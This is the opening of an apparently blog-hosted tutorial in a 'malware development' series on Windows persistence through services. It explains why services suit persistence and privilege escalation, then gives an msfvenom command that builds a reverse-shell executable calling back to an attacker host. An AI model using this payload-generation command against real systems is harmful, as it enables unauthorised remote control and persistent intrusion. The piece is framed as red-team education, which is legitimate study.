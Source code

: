 ```yaml
---
title:  "Malware development: persistence - part 4. Windows services. Simple C++ example."
date:   2022-05-09 10:00:00 +0600
header:
  teaser: "/assets/images/54/2022-05-10_18-10_1.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/54/2022-05-10_18-10_1.png){:class="img-responsive"}    

This post is a next part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll write about the result of my own research into another persistence trick: Windows Services.

### windows services
Windows Services are essential for hacking due to the following reasons:

- They operate natively over the network – the entire Services API was created with remote servers in mind.    
- They start automatically when the system boots.    
- They may have extremely high privileges in the operating system.   

Managing services requires high privileges, and an unprivileged user can often only view the settings.
This has not changed in over twenty years.    

In a Windows context, improperly configured services might lead to privilege escalation or be utilized as a persistence technique.
So, creating a new service requires Administrator credentials and is not a stealthy persistence approach.   

### practical example

Let's go to consider practical example: how to create and run a Windows service that receives a reverse shell for us.

First of all create reverse shell `exe` file via `msfvenom` from my attacker machine:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
```
